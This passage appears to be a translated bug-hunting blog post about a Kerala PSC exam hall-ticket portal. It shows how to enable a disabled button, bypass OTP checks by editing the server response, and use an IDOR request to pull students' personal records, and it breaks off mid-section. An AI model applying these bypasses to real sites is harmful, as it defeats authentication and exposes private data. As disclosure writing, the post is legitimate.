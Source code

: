 > *问:这个是给工科生的。我在那里做什么？*

*我们无处不在。在这种情况下，我的一个朋友是一名工程系学生，她要求我注册她的详细信息，因为她没有带笔记本电脑。我说好的，这就是我访问这个网站的原因。*

*我用她的详细资料注册，几天后，注册结束，是时候下载门票了。我参观了网站。登记表在那里，但被禁用。现在只有电话号码和大学身份证号码字段是活动的。它要求我们输入电话号码，然后它会发送动态口令，如果成功，它会自动填充所有的细节，我们也可以从那里下载门票。注册的时候，我没有想到要测试这个网站，而且这也不适合我。所以我没有尝试任何 xss 的有效载荷或网站上的其他任何东西。*

*现在让我们来谈要点。*

*我给了我的电话号码，但没有得到任何动态口令，这种情况持续了 4-5 次。我决定绕过它。*

## *错误 1:最简单的错误*

*我输入了手机号和高校身份证，勾选了下载大厅购票按钮。但它被禁用了。*

*我打开 chrome devtools，元素检查器，导航到下载按钮，删除属性 disabled。现在我点击了下载按钮，嘣！！厅票下载成功。请记住，询问动态口令的字段仍然存在，我没有任何动态口令。*

## *错误 2:另一个简单的错误*

*在这里，我尝试了另一种方法。没有输入身份证号码，我只是输入了手机号码，然后点击发送 otp。然后在 otp 字段，我输入随机数，点击验证。它发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/verifyOTP_download_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
cand_mob={mobile_number}&otp_entered={otp_I_entered}&csrf_token_online_mock={some_md5_value}*
```

*回应看起来像是*

```
*200 OK
{“message”: “The OTP you have entered is incorrect!!”, “status”:false}*
```

*我截取了响应，并将响应 json 值编辑为*

```
*{“status”:true}*
```

*是的。成功了。然后，它填写了表格中的所有数据和下载大厅门票按钮，然后启用。*

## *Bug 3 : IDOR 访问其他用户的数据*

*然后，我输入了我朋友的电话号码，假设她已经注册了。感谢上帝，她绕过了 otp 验证，注册了考试。这一次，我留意了它发送的所有请求，以下是观察结果。*

*1.获取学生的详细信息*

*一旦 otp 验证成功，它首先发送以下请求*

```
*POST /KPSCAptitudeTest/index.php/Mock_Controller/get_cand_details_hallticket HTTP/1.1
Host: mailer.psc.kerala.gov.in
mob_no={mobile_number}&csrf_token_onlinemock={csrf_token}*
```

*并且服务器响应*

```
*{“0”: {“cand_cd”:”{some_id}”, “cand_id”:”{college_id_number}”,”cand_name”:”{name_of_student}”,”cand_dob”:”{dob}”,”cand_address”:”{address_of_student}”,”cand_email”:”{email}”,”cand_mobile”:”{mobile_numer}”,”clg_name”:”{college_name}”,”cand_idcard_path”:”{relative_url_to_photo_of_idcard}”,”cand_exam_venue_opted”:”{id_of_exam_center}”},”details”: [{“cand_cd”:”{some_id}”, “cand_id”:”{college_id_number}”,”cand_name”:”{name_of_student}”,”cand_dob”:”{dob}”,”cand_address”:”{address_of_student}”,”cand_email”:”{email}”,”cand_mobile”:”{mobile_numer}”,”clg_name”:”{college_name}”,”cand_idcard_path”:”{relative_url_to_photo_of_idcard}”,”cand_exam_venue_opted”:”{id_of_exam_center}”}],”status”:true}*
```
